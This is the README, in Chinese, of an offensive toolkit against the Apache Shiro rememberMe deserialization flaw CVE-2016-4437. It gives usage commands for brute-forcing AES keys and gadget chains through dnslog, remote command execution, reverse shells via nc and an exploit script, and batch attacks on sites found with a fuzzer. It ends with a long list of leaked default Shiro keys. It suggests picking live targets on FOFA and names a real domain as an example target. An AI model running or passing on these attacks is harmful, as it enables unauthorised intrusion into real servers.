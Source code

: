 ## Awesome-shiro

CVE-2016-4437 Shiro&lt;=1.2.4反序列化，爆破模块和key、代码执行、反弹shell的工具

----

## 漏洞原因
因为shiro对cookie里的rememberme字段进行了反序列化，所以如果知道了shiro的编码方式，然后将恶意命令用它的编码方式进行编码并放在http头的cookie里，在shiro对提交的cookie的rememberme字段进行反序列化时，也就执行了插入的命令，最终造成了命令执行

shiro默认使用了CookieRememberMeManager，其处理cookie的流程是：
`得到rememberMe的cookie值-->Base64解码-->AES解密-->反序列化 `

## 环境
linux/win10 均可                 
python2/python3 均可          
由于module下有ysoserial.jar 所以项目略大，多多包涵
## 本地搭建靶场
```
docker pull medicean/vulapps:s_shiro_1
docker run -d -p 80:8080 medicean/vulapps:s_shiro_1
```
## 脚本使用
#### 1、shiro_crack.py 爆破模块使用
需要结合[http://dnslog.cn/](http://dnslog.cn/)
```
python3 shiro_crack.py http://www.baidu.com/login.do 1695jb.dnslog.cn
```
成功后查看记录-记录格式为 {{key}}.{{module}}.dnslogurl
```
U3ByaW5nQmxhZGUAAAAAAA.CommonsBeanutils1.x9zm4v.dnslog.cn
```
可知成功的key为`U3ByaW5nQmxhZGUAAAAAAA==`,模块为`CommonsBeanutils1`
因为key中包含==/+等符号，本项目会转义一丢丢。需自行对比附录1的key
fofa上找一个玩玩
![1.png](./img/1.png)
![2.png](./img/2.png)
##### shiro_crack.py 原理
其实网上有很多爆破模块和key的工具，但是爆破成功后一般只是打通，并不知道模块和key是什么，因为对于无回显的rce，无论通没通，响应码均为200。
本项目通过爆破模块和key结合dnslog间接获取成功的key和模块，原理即为DNSlog的内涵，Dns在解析的时候会留下日志，通过读取多级域名的解析日志，获取请求信息。

### 2、shiro_rce.py rce使用
可结合[http://dnslog.cn/](http://dnslog.cn/)
```
python3 shiro_crack.py http://www.baidu.com/login.do "ping rcetest.x9zm4v.dnslog.cn"
```
dnslog查看到`ping rcetest.x9zm4v.dnslog.cn` 为了区分，建议用更低一级的域名
#### shiro_rce 配置
1、配置模块
需要将第13行 
``` popen = subprocess.Popen(['java', '-jar', '../module/ysoserial.jar', 'CommonsBeanutils1', command], stdout=subprocess.PIPE)```其中的CommonsBeanutils1改为爆破成功用的模块
2、配置key
将第16行

 ```
key = base64.b64decode("kPH+bIxk5D2deZiIxcaaaA==") 
```

改成爆破成功的key
fofa上找一个玩
![3.png](./img/3.png)
![4.png](./img/4.png)

### 3、shiro_getshell 反弹shell
```
nc -lvnp 7777
python3 shiro_exp.py -u {{攻击的靶机}} -lh {{反弹shell的ip}} -lp {{反弹shell的端口}}
```
为了安全，还是打本地
原理即是把JRMPListener和payload打包丢一起了，其实讲道理可以不用jrmplistener

#### shiro_getshell测试：
![6.png](./img/6.png)
![5.png](./img/5.png)

---
一点小想法
既然可以出网，为啥不能直接用shiro_rec,`bash反弹shell`嘞
试过几次失败，我感觉是shiro有啥过滤，但是我发现可以先wget下载一个反弹shell的sh脚本，然后sh执行
参考[自己不用jrmplistener反弹shell的一点小研究](https://st4ck.gitee.io/2020/04/24/apache-shiro-1-2-4-fan-xu-lie-hua-lou-dong-cve-2016-4437-fu-xian-yu-dao-de-keng/)

---

### 4、fuzz-shiro
根据请求头，响应头做一个简单的测试-将有shiro的网站丢到shiro.txt中
### 5、shiro_piliang_crack.py
建议先从fuzz-shiro中拿到有shiro的站点shiro.txt，然后批量打           
dnsLog记录为           

{{key}}.{{模块}}.{{url}}.dnsurl

亲测还不错

## 常见问题
### 1、win10下运行时出现 No module named 'Crypto'
运行如下命令：
```
pip uninstall crypto pycryptodome
pip install pycryptodome
```
python安装目录下的\Lib\site-packages，将crypto文件夹的名字改成Crypto。

## 附录1、shiro常用key
```
kPH+bIxk5D2deZiIxcaaaA==
4AvVhmFLUs0KTA3Kprsdag==
Z3VucwAAAAAAAAAAAAAAAA==
fCq+/xW488hMTCD+cmJ3aQ==
0AvVhmFLUs0KTA3Kprsdag==
1AvVhdsgUs0FSA3SDFAdag==
1QWLxg+NYmxraMoxAXu/Iw==
25BsmdYwjnfcWmnhAciDDg==
2AvVhdsgUs0FSA3SDFAdag==
3AvVhmFLUs0KTA3Kprsdag==
3JvYhmBLUs0ETA5Kprsdag==
r0e3c16IdVkouZgk1TKVMg==
5aaC5qKm5oqA5pyvAAAAAA==
5AvVhmFLUs0KTA3Kprsdag==
6AvVhmFLUs0KTA3Kprsdag==
6NfXkC7YVCV5DASIrEm1Rg==
6ZmI6I2j5Y+R5aSn5ZOlAA==
cmVtZW1iZXJNZQAAAAAAAA==
7AvVhmFLUs0KTA3Kprsdag==
8AvVhmFLUs0KTA3Kprsdag==
8BvVhmFLUs0KTA3Kprsdag==
9AvVhmFLUs0KTA3Kprsdag==
OUHYQzxQ/W9e/UjiAGu6rg==
a3dvbmcAAAAAAAAAAAAAAA==
aU1pcmFjbGVpTWlyYWNsZQ==
bWljcm9zAAAAAAAAAAAAAA==
bWluZS1hc3NldC1rZXk6QQ==
bXRvbnMAAAAAAAAAAAAAAA==
ZUdsaGJuSmxibVI2ZHc9PQ==
wGiHplamyXlVB11UXWol8g==
U3ByaW5nQmxhZGUAAAAAAA==
MTIzNDU2Nzg5MGFiY2RlZg==
L7RioUULEFhRyxM7a2R/Yg==
a2VlcE9uR29pbmdBbmRGaQ==
WcfHGU25gNnTxTlmJMeSpw==
OY//C4rhfwNxCQAQCrQQ1Q==
5J7bIJIV0LQSN3c9LPitBQ==
f/SY5TIve5WWzT4aQlABJA==
bya2HkYo57u6fWh5theAWw==
WuB+y2gcHRnY2Lg9+Aqmqg==
kPv59vyqzj00x11LXJZTjJ2UHW48jzHN
3qDVdLawoIr1xFd6ietnwg==
ZWvohmPdUsAWT3=KpPqda
YI1+nBV//m7ELrIyDHm6DQ==
6Zm+6I2j5Y+R5aS+5ZOlAA==
2A2V+RFLUs+eTA3Kpr+dag==
6ZmI6I2j3Y+R1aSn5BOlAA==
SkZpbmFsQmxhZGUAAAAAAA==
2cVtiE83c4lIrELJwKGJUw==
fsHspZw/92PrS3XrPW+vxw==
XTx6CKLo/SdSgub+OPHSrw==
sHdIjUN6tzhl8xZMG3ULCQ==
O4pdf+7e+mZe8NyxMTPJmQ==
HWrBltGvEZc14h9VpMvZWw==
rPNqM6uKFCyaL10AK51UkQ==
Y1JxNSPXVwMkyvES/kJGeQ==
lT2UvDUmQwewm6mMoiw4Ig==
MPdCMZ9urzEA50JDlDYYDg==
xVmmoltfpb8tTceuT5R7Bw==
c+3hFGPjbgzGdrC+MHgoRQ==
ClLk69oNcA3m+s0jIMIkpg==
Bf7MfkNR0axGGptozrebag==
1tC/xrDYs8ey+sa3emtiYw==
ZmFsYWRvLnh5ei5zaGlybw==
cGhyYWNrY3RmREUhfiMkZA==
IduElDUpDDXE677ZkhhKnQ==
yeAAo1E8BOeAYfBlm4NG9Q==
cGljYXMAAAAAAAAAAAAAAA==
2itfW92XazYRi5ltW0M2yA==
XgGkgqGqYrix9lI6vxcrRw==
ertVhmFLUs0KTA3Kprsdag==
5AvVhmFLUS0ATA4Kprsdag==
s0KTA3mFLUprK4AvVhsdag==
hBlzKg78ajaZuTE0VLzDDg==
9FvVhtFLUs0KnA3Kprsdyg==
d2ViUmVtZW1iZXJNZUtleQ==
yNeUgSzL/CfiWw1GALg6Ag==
NGk/3cQ6F5/UNPRh8LpMIg==
4BvVhmFLUs0KTA3Kprsdag==
MzVeSkYyWTI2OFVLZjRzZg==
CrownKey==a12d/dakdad
empodDEyMwAAAAAAAAAAAA==
A7UzJgh1+EWj5oBFi+mSgw==
YTM0NZomIzI2OTsmIzM0NTueYQ==
c2hpcm9fYmF0aXMzMgAAAA==
i45FVt72K2kLgvFrJtoZRw==
U3BAbW5nQmxhZGUAAAAAAA==
ZnJlc2h6Y24xMjM0NTY3OA==
Jt3C93kMR9D5e8QzwfsiMw==
MTIzNDU2NzgxMjM0NTY3OA==
vXP33AonIp9bFwGl7aT7rA==
V2hhdCBUaGUgSGVsbAAAAA==
Z3h6eWd4enklMjElMjElMjE=
Q01TX0JGTFlLRVlfMjAxOQ==
ZAvph3dsQs0FSL3SDFAdag==
Is9zJ3pzNh2cgTHB4ua3+Q==
NsZXjXVklWPZwOfkvk6kUA==
GAevYnznvgNCURavBhCr1w==
66v1O8keKNV3TTcGPK1wzg==
SDKOLKn2J1j/2BHjeZwAoQ==
```

